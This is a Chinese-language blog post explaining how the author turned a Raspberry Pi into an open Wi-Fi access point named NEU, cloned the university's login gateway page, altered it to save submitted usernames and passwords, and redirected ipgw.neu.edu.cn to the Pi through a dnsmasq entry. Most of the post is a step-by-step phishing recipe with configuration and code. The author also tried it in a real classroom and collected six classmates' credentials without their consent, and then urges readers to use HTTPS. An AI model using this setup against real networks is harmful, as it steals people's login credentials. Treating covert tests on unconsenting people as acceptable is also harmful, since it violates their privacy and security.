 ```yaml
---
layout: post
title: Raspberry实现简单的DNS劫持
categories: Raspberry
---
```


> 受到一些无线路由器的启发，想在连接无线AP后通过访问一个本地域名来实现访问树莓派IP的目的，Google得到可以设置本地DNS进行解析。然后就突然想到可以做一次简单的DNS劫持测试。

<!-- more -->

### 计划
* 树莓派开启无线AP，并设置SSID为NEU，取消密码。  
* 拷贝学校IP控制网关页面到树莓派上，并进行适当修改，使其在点击“连接网络”后存储登录信息到树莓派数据库中。  
* 设置本地DNS，将IP控制网关的域名解析到树莓派的IP上。  

### 无线AP设置  
* 在上一篇文章中我们已经基本设置好了树莓派的无线AP，其中树莓派的IP为4.3.2.1。  
* 更改无线AP的SSID和密码：  
  `$ sudo vim /etc/hostapd/hostapd.conf`  
  原本的内容为：  
  ```
  interface=wlan0  
  driver=nl80211  
  ssid=Raspberry AP  /***change***/  
  hw_mode=g  
  channel=7  
  wmm_enabled=1  
  macaddr_acl=0  
  auth_algs=1  
  ignore_broadcast_ssid=0  
  wpa=2  /***change***/  
  wpa_passphrase=12345678  /***delete***/  
  wpa_key_mgmt=WPA-PSK  /***delete***/  
  rsn_pairwise=CCMP  
  ```
  修改之后为：  
  ```
  interface=wlan0  
  driver=nl80211  
  ssid=NEU  
  hw_mode=g  
  channel=7  
  wmm_enabled=1  
  macaddr_acl=0  
  auth_algs=1  
  ignore_broadcast_ssid=0  
  wpa=0  
  rsn_pairwise=CCMP  
  ```
* 重启hostapd服务：  
  `$ sudo systemctl restart hostapd`  

### 网页拷贝
* 分别访问电脑版和手机版的IP控制网关，在Chromium浏览器中右键另存为就得到了当前页面的html代码以及该页面用到的文件。   
* 将下载到的文件及文件夹全部移动到`/var/www/html/`目录下。  
* 调整文件结构。例如：  
  * 新建`css/`文件夹将所有的css文件放进去；  
  * 新建`includes/`文件夹将html页面相同的布局放进去；  
  * 将html文件改为php文件。  
* 新建`index.php`，判断访问者是手机还是电脑，并跳转到对应页面。  
  `$ vim index.php`  
  （代码来源自网络）  
  （其中`srun_portal_phone.php`是手机页面，`srun_portal_pc.php`是电脑页面）  
  ```
  <?php  
  function is_mobile_request()  
  {  
	  $_SERVER['ALL_HTTP'] = isset($_SERVER['ALL_HTTP']) ? $_SERVER['ALL_HTTP'] : '';  
	  $mobile_browser = '0';  
	  if(preg_match('/(up.browser|up.link|mmp|symbian|smartphone|midp|wap|phone|iphone|ipad|ipod|android|xoom)/i', strtolower($_SERVER['HTTP_USER_AGENT'])))  
		  $mobile_browser++;  
	  if((isset($_SERVER['HTTP_ACCEPT'])) and (strpos(strtolower($_SERVER['HTTP_ACCEPT']),'application/vnd.wap.xhtml+xml') !== false))  
		  $mobile_browser++;  
	  if(isset($_SERVER['HTTP_X_WAP_PROFILE']))  
		  $mobile_browser++;  
	  if(isset($_SERVER['HTTP_PROFILE']))  
		  $mobile_browser++;  
		  $mobile_ua = strtolower(substr($_SERVER['HTTP_USER_AGENT'],0,4));  
	  $mobile_agents = array(  
      'w3c ','acs-','alav','alca','amoi','audi','avan','benq','bird','blac',  
      'blaz','brew','cell','cldc','cmd-','dang','doco','eric','hipt','inno',  
      'ipaq','java','jigs','kddi','keji','leno','lg-c','lg-d','lg-g','lge-',  
      'maui','maxo','midp','mits','mmef','mobi','mot-','moto','mwbp','nec-',  
      'newt','noki','oper','palm','pana','pant','phil','play','port','prox',  
      'qwap','sage','sams','sany','sch-','sec-','send','seri','sgh-','shar',  
      'sie-','siem','smal','smar','sony','sph-','symb','t-mo','teli','tim-',  
      'tosh','tsm-','upg1','upsi','vk-v','voda','wap-','wapa','wapi','wapp',  
      'wapr','webc','winw','winw','xda','xda-'
      );  
	  if(in_array($mobile_ua, $mobile_agents))  
		  $mobile_browser++;  
	  if(strpos(strtolower($_SERVER['ALL_HTTP']), 'operamini') !== false)  
		  $mobile_browser++;  
	  // Pre-final check to reset everything if the user is on Windows  
	  if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']), 'windows') !== false)  
		  $mobile_browser=0;  
	  // But WP7 is also Windows, with a slightly different characteristic  
	  if(strpos(strtolower($_SERVER['HTTP_USER_AGENT']), 'windows phone') !== false)  
		  $mobile_browser++;  
	  if($mobile_browser>0)   
		  echo '<meta http-equiv="refresh" content="0;url=srun_portal_phone.php?url=&ac_id=1">';  
	  else  
		  echo '<meta http-equiv="refresh" content="0;url=srun_portal_pc.php?url=&ac_id=1">'; 
  }
	  is_mobile_request();
  ?>
  ```
* 修改文件内容。例如：  
  * 将代码中https全部替换为http；  
  * 删除各个页面中可能保留的帐号密码；  
  * 修改php代码，自动将表单提交内容存入树莓派数据库。  

### DNS解析
* 添加解析：  
  `$ sudo vim /etc/dnsmasq.conf`  
  在第一行添加：  
  `address = /ipgw.neu.edu.cn/4.3.2.1`  
  表示将`ipgw.neu.edu.cn`解析到本地的web服务器上。  
* 重启服务：  
  `$ sudo systemctl restart dnsmasq`  

### 测试
* 真实网页：  
  ![ipgw-T-https](/public/image/ipgw-T-https.png)
* 虚假网页：  
  ![ipgw-F-http](/public/image/ipgw-F-http.png)
* 用户名输入：20160000  
  密码输入：2016abcd  
  点击连接网络，此时在树莓派的数据库中就可以看到：  
  ![ipgw-test](/public/image/ipgw-test.png)

### 总结
* 实际上，由于本校的IP控制网关启用了https，这种DNS劫持的方法应该是没有实际意义的。  
  ![ipgw-F-https](/public/image/ipgw-F-https.png)
  在保存书签的时候，Chrome和Safari浏览器会默认保存为`https://ipgw.neu.edu.cn`；如果手动输网址，这两个浏览器也会自动补全为`https://ipgw.neu.edu.cn`。所以我本来对之后的实际测试是不抱任何希望的。  
  然而在将树莓派带到教室进行测试后，两节课之后数据库还是多了6名同学的数据。测试结束后我先删除了数据库数据，然后又分别向这6位同学发送邮件提醒其修改浏览器书签，顺便建议他们修改密码。  
  > 维基百科：  
  > http是不安全的，且攻击者通过监听和中间人攻击等手段，可以获取网站帐户和敏感信息等。https被设计为可防止前述攻击，并（在没有使用旧版本的SSL时）被认为是安全的。  
* 为了防范这种DNS劫持，最好的办法就是使用https。  
* 现在就检查一遍你的书签，把可以替换的http全部替换为https吧！  
